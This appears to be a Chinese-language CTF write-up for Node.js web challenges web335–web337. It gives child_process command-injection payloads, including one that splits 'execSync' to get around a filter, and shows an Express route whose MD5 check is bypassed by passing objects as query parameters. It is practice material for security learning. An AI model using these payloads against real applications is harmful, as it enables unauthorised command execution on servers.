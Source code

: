 就说嘛

其他payload

```node
require( 'child_process' ).spawnSync( 'ls', [ '/' ] ).stdout.toString()
require( 'child_process' ).spawnSync( 'cat', [ 'f*' ] ).stdout.toString()
require("child_process")['exe'%2B'cSync']('ls')
```

### web336

应该是过滤了`execSync`
```node
require("child_process").spawnSync( 'ls', [ '/' ] ).stdout.toString()
```

### web337
```node
var express = require('express');
var router = express.Router();
var crypto = require('crypto');

function md5(s) {
  return crypto.createHash('md5')
    .update(s)
    .digest('hex');
}

/* GET home page. */
router.get('/', function(req, res, next) {
  res.type('html');
  var flag='xxxxxxx';
  var a = req.query.a;
  var b = req.query.b;
  if(a && b && a.length===b.length && a!==b && md5(a+flag)===md5(b+flag)){
  	res.end(flag);
  }else{
  	res.render('index',{ msg: 'tql'});
  }
  
});

module.exports = router;
```

flag条件 `a && b && a.length===b.length && a!==b && md5(a+flag)===md5(b+flag)`

---
把数组这茬网了,当我们传入 `a[x]=1&b[x]=1`,后端接收到的数据为 `a={"x":"1"} b={"x":"1"}` 
拼接后如图
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230518012046.png)

变为了`[object Object]flag`
